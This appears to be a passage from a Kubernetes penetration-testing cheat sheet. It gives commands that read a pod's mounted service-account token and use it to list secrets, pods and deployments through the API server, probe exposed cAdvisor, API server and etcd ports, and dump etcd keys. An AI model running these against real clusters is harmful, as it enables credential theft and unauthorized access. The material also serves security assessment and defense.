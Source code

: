 ```powershell
$ cat /run/secrets/kubernetes.io/serviceaccount/token
$ curl -k -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/secrets/
```

## Interesting endpoints to reach

```powershell
# List Pods
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/pods/

# List secrets
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/secrets/

# List deployments
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip:<port>/apis/extensions/v1beta1/namespaces/default/deployments

# List daemonsets
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip:<port>/apis/extensions/v1beta1/namespaces/default/daemonsets
```


## API addresses that you should know 

*(External network visibility)*

### cAdvisor

```powershell
curl -k https://<IP Address>:4194
```

### Insecure API server

```powershell
curl -k https://<IP Address>:8080
```

### Secure API Server

```powershell
curl -k https://<IP Address>:(8|6)443/swaggerapi
curl -k https://<IP Address>:(8|6)443/healthz
curl -k https://<IP Address>:(8|6)443/api/v1
```

### etcd API

```powershell
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
etcdctl --endpoints=http://<MASTER-IP>:2379 get / --prefix --keys-only
```

